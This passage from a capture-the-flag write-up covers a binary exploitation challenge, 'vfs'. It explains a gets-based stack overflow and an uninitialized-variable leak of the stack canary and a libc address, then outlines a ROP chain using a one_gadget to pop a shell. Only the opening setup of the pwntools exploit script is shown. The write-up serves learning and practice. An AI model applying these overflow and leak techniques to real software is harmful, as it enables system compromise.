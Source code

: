 ```c
  puts("Hope you enjoyed this demo, and please stop using malloc :)");
                    /* WARNING: Subroutine does not return */
  exit(0);
}
```

If you are wondering what the `demo` function does, it is useful to look at the assembly. A standard function prologue looks like the following (intel syntax):

```asm
push   rbp
mov    rbp,rsp
sub    rsp,0x180
```

The space allocated on the stack for the local variables (using `sub rsp, <n>`) is statically defined. In `demo`, however, the prologue is the following:

```asm
push   rbp
mov    rbp,rsp
sub    rsp,rdi
```

where the space allocated is dynamically defined using `rdi`, which is the first argument passed to the function.

There are two vulnerabilities. The first one is obvious, and derives from the usage of `gets`. Notice, however, that we cannot leak the canary, as `gets` puts a null byte at the end of our input, preventing string-reading functions to leak it.

The second vulnerability is a little more subtle. Notice that the `rating` variable in `stats` is never initialized if we do not enter the if, but it still gets printed out anyway at the end. This means that we can leak stuff on the stack!

#### Exploitation

We can use the second vulnerability to leak stuff from the binary. The easier way to see what we can get is to try every possible combination of calls to `VFS`, followed by a `stats`. In each `VFS` call, we will change the size of the stack allocation, therefore changing the stack (and possibly what's leaked by `stats`).

We can then simply print out the leaks, find out what it prints (in this case, both the canary and a libc address is printed, allowing us to use the whole libc to pop a shell).

We can then simply build a ropchain to pop a shell using a one_gadget (and some gadgets to fulfill its constraints.

```py
#!/usr/bin/env python3

from pwn import *

exe = ELF("./vfs_patched")
libc = ELF("./libc.so.6")

context.binary = exe
context.log_level = "debug"
context.terminal = ["kitty"]
io = None


def conn(*a, **kw):
    if args.GDB:
        return gdb.debug([exe.path], gdbscript="", **kw)
    else:
        return process([exe.path], **kw)


```